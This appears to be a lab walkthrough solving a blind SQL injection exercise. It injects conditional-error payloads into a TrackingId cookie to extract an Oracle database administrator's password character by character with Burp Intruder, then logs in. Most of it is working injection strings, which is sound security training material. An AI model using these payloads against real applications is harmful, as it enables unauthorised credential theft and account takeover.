 ### Exploiting blind SQL injection by triggering conditional ERRORS

1 - Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is ```TrackingId=xyz```.

2 - Modify the TrackingId cookie, appending a single quotation mark to it:
```TrackingId=xyz'```

Verify that an error message is received.

3 - Now change it to two quotation marks:
```TrackingId=xyz''```
Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

4 - You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:
```TrackingId=xyz'||(SELECT '')||'```

In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:
```TrackingId=xyz'||(SELECT '' FROM dual)||'```

As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

5 - Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
```TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'```

This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

6 - As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query:
```TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'```

As this query does not return an error, you can infer that this table does exist. Note that the ```WHERE ROWNUM = 1``` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

7 - You can also exploit this behavior to test conditions. First, submit the following query:
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

Verify that an error message is received.

8 - Now change it to:
```TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'```

Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

9 - You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:
```TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

Verify that the condition is true (the error is received), confirming that there is a user called administrator.

10 - The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
```TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

This condition should be true, confirming that the password is greater than 1 character in length.

11 - Send a series of follow-up values to test different password lengths. Send:
```TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

Then send:
```TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

12 - After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

13 - In the Positions tab of Burp Intruder, change the value of the cookie to:
```TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

This uses the SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

14 - Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
```TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

15 - To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

16 - Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

17 - Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.

18 - Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

```TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

19 - Launch the modified attack, review the results, and note the character at the second offset.

20 - Continue this process testing offset 3, 4, and so on, until you have the whole password.

21 - In the browser, click "My account" to open the login page. Use the password to log in as the administrator user. 

